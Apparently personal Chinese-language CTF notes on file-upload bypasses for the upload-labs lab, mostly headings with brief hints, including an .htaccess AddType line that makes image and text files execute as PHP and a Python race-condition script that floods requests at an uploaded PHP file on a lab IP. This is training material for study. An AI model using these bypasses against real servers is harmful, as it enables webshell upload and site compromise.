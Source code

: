 ```yaml
---
tags:
  - CTF
  - 文件上传
---
```

# 1.前端js绕过




# 2.绕过MIME-Type验证
content-type




# 3.等价扩展名绕过验证
httpd.conf-》写入add php3....




# 4.    .htaccess文件绕过
.htaccess文件
`AddType application/x-httpd-php .txt .jpg`
[文件上传--利用.htaccess绕过黑名单 - sijidou - 博客园](https://www.cnblogs.com/sijidou/p/13111905.html)




# 5.    .user.ini绕过
大于5.3最好大于7.0
[.user.ini导致文件上传绕过 - sijidou - 博客园](https://www.cnblogs.com/sijidou/p/13121301.html)



# 6. 大小写绕过




# 7.通过空格绕过




# 8.通过.绕过（windows）





# 9.通过特殊字符绕过验证
windows NT系统



# 10.通过拼接路径绕过






# 11.通过双写绕过验证





# 12.空字符绕过(get)
php版本5.2
php.ini -》 magic_quotes_gpc = Off



# 13.空字符绕过(post) 




# 14.文件头绕过
010editor
文件包含漏洞



# 15.图片马绕过
php版本>5.4





16题跳过 开exif模块剩下的和15一样
# 16. 图片的二次渲染绕过




# 17.条件竞争

```python
import requests
import threading
import os

class RaceCondition(threading.Thread):
    def __init__(self):
        threading.Thread.__init__(self)
        self.url = 'http://192.168.60.143/upload-labs/upload/1.php'

    def _get(self):
        print('try to call uploaded file...')
        r = requests.get(self.url)
        if r.status_code == 200:
            print(r.text)
            os._exit(0)

    def run(self):
        while True:
            for i in range(5):
                self._get()
            for i in range(10):
                self._get()

if __name__ == '__main__':
    threads = 50
    for i in range(threads):
        t = RaceCondition()
        t.start()

    for i in range(threads):
        t.join()
```





# 18.代码审计绕过（21题）